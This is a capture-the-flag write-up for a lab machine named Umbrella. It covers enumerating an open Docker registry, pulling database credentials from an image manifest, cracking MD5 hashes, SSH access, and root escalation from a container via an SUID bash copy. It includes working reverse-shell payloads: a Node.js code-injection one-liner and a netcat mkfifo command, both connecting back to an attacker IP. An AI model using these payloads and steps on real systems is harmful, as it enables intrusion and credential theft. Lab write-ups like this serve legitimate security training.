

# Umbrella Writeup

IP : `10.10.205.131`

Open Ports : 22,3306,5000,8080

<figure><figcaption></figcaption></figure>

port 5000 isn't responding maybe

if we have a quick over look about the service, we can find that 5000 is Registry API 2.0 maybe this the reason , port 5000 isn't responding Let's look up for any exploit or mis-configuration in that service\
In there site we can see the misconfiguration and how to exploit it link\[https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry] https://exploit-notes.hdks.org/exploit/container/docker/docker-registry-pentesting/ https://notsosecure.com/anatomy-of-a-hack-docker-registry

Exploitation:

1. curl -s http://10.10.205.131:5000/v2/\_catalog {"repositories":\["umbrella/timetracking"]}
2. curl -s http://10.10.205.131:5000/v2/umbrella/timetracking/tags/list\
   {"name":"umbrella/timetracking","tags":\["latest"]}
3. curl -s http://10.10.205.131:5000/v2/umbrella/timetracking/manifests/latest in this request we get all the information in json format , lets dig for pass or id's

after looking through the json data , we can find DB\_ID and DB\_PASS&#x20;

<figure><figcaption></figcaption></figure>

Now let's give a try with these creds in port 3306(mysql)

<figure><figcaption></figcaption></figure>

lets use the "timetracking" databases and there is users tables we found user and pass , password is in md5 format

<figure><figcaption></figcaption></figure>

these user and pass could be used to login page which is running in 8080 port and ssh (?) . Now lets crack the hashes and give it try . !

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

&#x20;lets give it try to ssh login , only one user is valid user in db

we get the ssh shell , lets try to grab the user.txt

<figure><figcaption></figcaption></figure>

after few enumeration , we cant can't get privileges with claire-r user

maybe there could chance we can get privileges in login page

After login we will redirect into the site then we can see stats tracking in the site

<figure><figcaption></figcaption></figure>

Back to nmap scan - We got the result that its running on node.js

lets try to get a reverse shell

while try reverse shell from `payload all the things from github` we are getting an error `Payload we used` var net = require("net"), cp = require("child\_process"), sh = cp.spawn("/bin/sh", \[]); var client = new net.Socket(); client.connect(9001, "YOUR IP", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/; // Prevents the Node.js application from crashing })();&#x20;

`error :` !

<figure><figcaption></figcaption></figure>

lets make it in one liner code , then try to get the reverse shell

`(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(9001, "10.8.42.11", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();`

now start listener again we got a reverse shell&#x20;

&#x20;lets make shell better  `bash -i` We tried to go to root , but we can't find the root.txt maybe it is running container

<figure><figcaption></figcaption></figure>

if we see `env` in shell it's showing us logs file directory&#x20;

<figure><figcaption></figcaption></figure>

If we notice in user shell&#x20;

<figure><figcaption></figcaption></figure>

maybe we there is a chance we can get a shell through let test by creating a file and it has root privileges&#x20;

<figure><figcaption></figcaption></figure>

&#x20;`tried rev shells` : netcat busybox : failed rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.42.11 1337 >/tmp/f

maybe we should try another way lets try to import/copy in to the current directory ,then lets we get user(u) SUID(s) permissions to execute(x) the file

<figure><figcaption></figcaption></figure>

Lets run the file

<figure><figcaption></figcaption></figure>

its still in user privileges , what if we try for privileges (-p)

there we go we got root shell&#x20;

<figure><figcaption></figcaption></figure>

